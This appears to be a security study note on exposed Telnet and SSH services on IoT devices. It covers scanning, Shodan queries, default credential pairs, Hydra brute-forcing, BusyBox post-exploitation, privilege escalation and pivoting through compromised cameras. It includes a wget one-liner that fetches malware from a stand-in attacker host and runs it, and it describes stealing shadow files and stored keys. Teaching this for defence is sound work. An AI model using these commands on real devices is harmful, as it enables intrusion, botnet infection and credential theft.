

# 49.05 Telnet SSH Exposed on IoT Devices

## Introduction to Exposed Management Protocols

Despite decades of security warnings, legacy and insecure management protocols like Telnet (Port 23) and SSH (Port 22) remain heavily prevalent in the Internet of Things (IoT) landscape. These protocols provide a command-line interface (CLI) directly to the device's underlying operating system, which is typically a stripped-down version of embedded Linux (running BusyBox) or a Real-Time Operating System (RTOS).

When developers build IoT devices—ranging from IP cameras and smart routers to industrial PLCs and medical infusion pumps—they rely on Telnet and SSH to debug software, configure network interfaces, and monitor system logs during the development lifecycle. The critical vulnerability arises when these services are left running and exposed on the production firmware shipped to consumers, often protected only by easily guessable default credentials, or worse, no authentication at all.

An exposed Telnet or SSH service provides an attacker with a direct, network-based entry point to execute commands, modify the filesystem, and pivot deeper into the internal network, completely bypassing physical security boundaries.

---

## Why are Telnet and SSH Exposed?

1.  **Development Oversight:** The most common reason. Developers enable `telnetd` or `dropbear` (a lightweight SSH server) in initialization scripts (like `rc.local`) for debugging and simply forget to remove or comment out the line before compiling the final production firmware image.
2.  **"Hidden" Support Backdoors:** Vendors often intentionally leave SSH or Telnet running on non-standard ports (e.g., 2323, 2222, 60000) with a hardcoded backdoor password. This allows vendor customer support to remotely access and troubleshoot user devices. However, once a security researcher discovers this hidden port and the universal password, it becomes a global vulnerability.
3.  **Misconfigured UPnP:** Sometimes the service is meant only for local network (LAN) access. However, due to buggy Universal Plug and Play (UPnP) implementations on edge routers, the IoT device may automatically request the router to open firewall ports and forward external internet traffic directly to the device's local Telnet/SSH daemon.

---

## ASCII Diagram: Network Authentication Attack Vector



---

## Reconnaissance and Fingerprinting

The first step in exploiting exposed network services is identifying them.

### Active Scanning
If the attacker is on the same local network (e.g., assessing a smart home or corporate network), they can use `nmap` to identify exposed ports and determine the specific daemon running.
*   **Basic Scan:** `nmap -sV -p 22,23,2222,2323 <IP>`
*   **Banner Grabbing:** Tools like `netcat` (`nc <IP> 23`) will often reveal a welcome banner. This banner might explicitly state the hardware architecture (e.g., `MIPS`, `ARMv7`), the OS version (`OpenWrt 19.07`), or the device make and model (`Welcome to D-Link IP Camera`). This information is crucial for tailoring subsequent exploits.

### Passive Scanning (Shodan / Censys)
If the device is exposed to the public internet, attackers do not need to actively scan. They can use search engines like Shodan to find millions of exposed IoT devices globally.
*   *Shodan Query Example:* `port:23 "BusyBox"` or `port:22 "dropbear"`.

---

## Authentication Bypass and Brute-Forcing

Once an exposed SSH or Telnet service is identified, the next hurdle is authentication.

### Default Credentials
Unlike standard Linux servers, IoT devices are notorious for shipping with easily guessable default credentials that users rarely change (and often cannot change without voiding the warranty).
*   Common pairs include: `root:root`, `admin:admin`, `root:admin`, `admin:password`, `root:<blank>`, `support:support`.
*   Vendors sometimes use device-specific patterns, such as the device's MAC address or serial number (often printed on a sticker, but sometimes leaked via SNMP or UPnP on the network).

### Brute-Forcing Tools
Attackers use automated tools to rapidly test thousands of username/password combinations against the exposed service.
*   **Hydra:** A highly flexible network logon cracker.
    ```bash
    # Brute-force Telnet using a specialized IoT wordlist
    hydra -L iot_users.txt -P iot_passwords.txt telnet://192.168.1.100
    ```
*   **Medusa:** Similar to Hydra, often faster on specific protocols.
*   **Mirai Source Code Lists:** Attackers frequently use the precise list of 60+ credentials leaked from the Mirai botnet source code, which remain highly effective against legacy hardware.

### Unauthenticated Access
In some poorly engineered systems, simply connecting to the Telnet port bypasses authentication entirely, immediately dropping the user into a root shell (e.g., `# `).

---

## Post-Exploitation on Embedded Linux

Successfully authenticating to an IoT device via SSH/Telnet does not yield the standard Linux environment most IT professionals are used to. IoT devices are highly constrained.

### The BusyBox Environment
Embedded systems typically use **BusyBox**, which advertises itself as "The Swiss Army Knife of Embedded Linux." It combines tiny versions of many common UNIX utilities (like `ls`, `grep`, `cat`, `awk`, `wget`) into a single executable binary (`/bin/busybox`) to save flash memory.
*   **Limited Shells:** The shell is usually `ash` or `sh`, not `bash`. Features like history, tab-completion, and complex scripting are often missing.
*   **Missing Tools:** Penetration testing staples like `python`, `perl`, `nc` (with the `-e` flag), `curl`, and standard text editors (`nano`, `vim`) are almost always absent. You must use `vi` or echo commands to write files.

### Establishing Persistence and Exfiltration
*   **Malware Downloading:** To expand their capabilities, attackers will download architecture-specific binaries (e.g., a MIPS compiled reverse shell or a Mirai malware payload) from their command-and-control (C2) server.
    *   *Technique:* If `wget` is available: `wget http://attacker.com/malware.mips -O /tmp/malware; chmod +x /tmp/malware; /tmp/malware &`. (Note: Attackers use `/tmp` because the primary filesystem is usually read-only `SquashFS`, whereas `/tmp` is mapped to RAM).
*   **Exfiltration:** The attacker will immediately inspect `/etc/passwd`, `/etc/shadow`, and configuration files in `/nvram/` or `/etc/config/` to steal plaintext Wi-Fi keys, VPN credentials, or cloud API tokens.

---

## Privilege Escalation

If the SSH/Telnet user is not `root` (e.g., `user`, `admin`, or `guest`), the attacker must escalate privileges.
*   **Insecure File Permissions:** Because embedded filesystems are simplified, sensitive files or device nodes (`/dev/mem`, `/dev/mtd*`) might be globally readable or writable.
*   **SUID Binaries:** Search for binaries executing as root: `find / -perm -4000 -type f 2>/dev/null`. Custom vendor CGI binaries or network daemons often have the SUID bit set and may contain command injection flaws.
*   **Kernel Exploits:** Because firmware is rarely updated, IoT devices often run ancient Linux kernels (e.g., `2.6.x` or `3.10.x`). These kernels are highly vulnerable to known local privilege escalation (LPE) exploits like *Dirty COW* (CVE-2016-5195), provided the attacker can cross-compile the C exploit code for the specific device architecture.

---

## Network Pivoting and Lateral Movement

An IoT device is rarely the ultimate target; it is a stepping stone. Once compromised, the device provides a trusted foothold inside the perimeter firewall.

*   **SSH Port Forwarding:** If SSH is used, the attacker can leverage Dynamic Port Forwarding to route traffic through the IoT device.
    *   `ssh -D 9050 root@192.168.1.100` -> Creates a local SOCKS5 proxy. The attacker can configure their web browser or proxychains to route traffic through the IP camera to access internal admin panels, routers, or corporate active directory servers.
*   **Custom Pivoting Tools:** Because standard tools are missing, attackers will cross-compile static binaries of tools like **Chisel** (a fast TCP/UDP tunnel over HTTP) or **Ligolo-ng** for the device's architecture (e.g., ARM5, MIPS) and drop them into the `/tmp` directory.
*   **Attacking Other IoT:** Devices like smart hubs or Zigbee gateways can be used to interact directly with edge networks (Z-Wave, BLE) that are otherwise inaccessible via IP.

---

## Chaining Opportunities

*   **OSINT -> Brute-force -> Pivot:** Identify exposed IP cameras on Shodan `->` Brute force Telnet with Mirai dictionaries `->` Gain root `->` Cross-compile and upload `chisel` `->` Use the camera as a proxy to pivot into the internal network of the business hosting the camera.
*   **Firmware Analysis -> Hardcoded Password -> SSH Access:** Download firmware from vendor website `->` Extract with Binwalk `->` Find a hidden `support` user and password hash in `/etc/shadow` `->` Crack hash `->` Use the credential to SSH into the device locally without needing to find a vulnerability in the web UI.

## Related Notes
*   [[01 - IoT Attack Surface Overview]]
*   [[03 - Firmware Analysis and Reverse Engineering]]
*   [[04 - Hardcoded Credentials in Firmware]]
